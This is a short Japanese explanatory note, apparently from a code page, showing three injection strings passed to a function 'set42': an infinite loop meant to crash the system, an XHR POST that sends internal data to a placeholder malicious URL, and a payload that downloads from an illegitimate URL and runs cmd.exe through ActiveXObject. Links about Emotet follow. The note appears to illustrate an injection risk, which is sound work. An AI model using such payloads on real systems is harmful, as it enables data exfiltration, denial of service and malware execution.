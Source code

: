 ﻿```javascript
set42("while(true); let a");
```

無限ループでシステムクラッシュ

```javascript
set42('XHR.open("POST", "https:悪意のあるURL); XHR.send(内部データ);let a');
```

内部データの機密データを外部に送信

```javascript
set42("const link = document.createElement('a');link.download = 'result.csv';link.href = '不正なURL'; link.click();  new ActiveXObject('WSctipt.Shell').Run('C:\\Windows\\System32\\cmd.exe'); let a=");
```

特定のURLからマルウェアなどの不正なファイルをダウンロードしてサーバー上でcmd.exeファイルを実行することができる。

少し話題が外れるが以下参考
[社内でのEmotet感染](https://www.mbsd.jp/blog/20181225_2.html)
[流行マルウェア「EMOTET」の内部構造を紐解く](https://rfgricoh-my.sharepoint.com/:p:/g/personal/seiichi_kondoh_jp_ricoh_com/ERnBRvr64exMhOashRyDH84BzcszJicerRVoznAR6zQvig?e=ss41hT)